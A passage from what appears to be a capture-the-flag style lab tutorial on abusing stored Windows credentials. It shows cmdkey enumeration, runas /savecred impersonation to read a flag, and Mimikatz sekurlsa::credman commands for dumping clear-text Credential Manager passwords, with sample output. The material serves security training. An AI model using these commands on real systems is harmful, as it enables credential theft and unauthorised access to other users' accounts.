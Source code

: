 The output shows that we obtained the username and password for accessing the internal application.

### RunAs

An alternative method of taking advantage of stored credentials is by  using RunAs. RunAs is a command-line built-in tool that allows running  Windows applications or tools under different users' permissions. The  RunAs tool has various command arguments that could be used in the  Windows system. The `/savecred` argument allows you to save  the credentials of the user in Windows Credentials Manager (under the  Windows Credentials section). So, the next time we execute as the same  user, runas will not ask for a password.

Let's apply it to the attached Windows machine. Another way to enumerate stored credentials is by using `cmdkey`, which is a tool to create, delete, and display stored Windows credentials. By providing the `/list` argument, we can show all stored credentials, or we can specify the credential to display more details `/list:computername`.

- **Enumerating for Stored Windows Credentials**

```markup
C:\Users\thm>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=thm\thm-local
    Type: Domain Password
    User: thm\thm-local
        
```

The output shows that we have a domain password stored as the `thm\thm-local` user. Note that stored credentials could be for other servers too. Now let's use runas to execute Windows applications as the `thm-local` user. 

- **Run CMD.exe As a User with the /savecred argument**

```markup
C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
        
```

A new cmd.exe pops up with a command prompt ready to use. Now run  the whoami command to confirm that we are running under the desired  user. There is a flag in the `c:\Users\thm-local\Saved Games\flag.txt`, try to read it and answer the question below.

### Mimikatz

Mimikatz is a tool that can dump clear-text passwords stored in the Credential  Manager from memory. The steps are similar to those shown in the  previous section (Memory dump), but we can specify to show the  credentials manager section only this time.

- **Dumping Memory for Credentials Manager**

```markup
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
        
```
